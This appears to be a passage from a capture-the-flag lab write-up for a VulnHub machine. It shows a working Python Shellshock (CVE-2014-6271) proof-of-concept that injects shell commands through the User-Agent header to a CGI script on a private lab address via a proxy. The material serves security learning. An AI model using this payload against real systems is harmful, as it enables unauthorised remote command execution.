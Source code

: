 
## Exploitation
Since Nikto told me there was a vulnerability call **ShellShock (CVE-2014-6271)** on /cgi-bin/status but I was not going to use this vulnerability because it could be too easy and didn't challege me.

###  Shellshock PoC
Befor testing, proxy on the system must be configured
```
export http_proxy="http://p192.168.159.131:3128"
```

This is my PoC script of ShellShock (find more information about [shellshock](https://access.redhat.com/articles/1200223))
```python
import sys
import httplib2
from urllib import urlencode
import time
import socket

def send(fullURL,headers):
    # http = httplib2.Http()
    http = httplib2.Http(proxy_info = httplib2.ProxyInfo(httplib2.socks.PROXY_TYPE_HTTP_NO_TUNNEL, '192.168.159.131', 3128) )
    body = {}
    response, content = http.request(fullURL, 'GET', headers=headers, body=urlencode(body))
    return (content)


fullURL = "http://192.168.159.131/cgi-bin/status"
host = "192.168.159.131"
print ("[*] Full : " + fullURL)


print "-------------------------------"
print "[*] Testing ... "

try:
	command = "/usr/bin/id"
	header = '() { xxxxxxxxxxxxxxxxxx; }; echo ; echo ; '+command+';'
	headers = {'User-Agent': header, 'Host': "" + host }
	print "[*] Type 1 >> " + header
	print "[*] Executing command:" + command
	content = send(fullURL,headers)
	print str(content)
except (httplib2.HttpLib2Error,socket.error) as ex:
    print '[!] Checking ' + fullURL + ' >> ' + "error, check url"

try:
	command = "/usr/bin/whoami"
	header = '() { :; }; echo ; echo ; /bin/bash -c  '+command+';'
	headers = {'User-Agent': header, 'Host': "" + host }
	print "[*] Type 2 >> " + header
	print "[*] Executing command:" + command
	content = send(fullURL,headers)
	print str(content)
except (httplib2.HttpLib2Error,socket.error) as ex:
    print '[!] Checking ' + fullURL + ' >> ' + "error, check url"
```
And of course the web site was vulnerable!!!
```
root@BOEING:/kapi/vulnhub/sic0s1.1# python shellshock.py 
[*] Full : http://192.168.159.131/cgi-bin/status
-------------------------------
```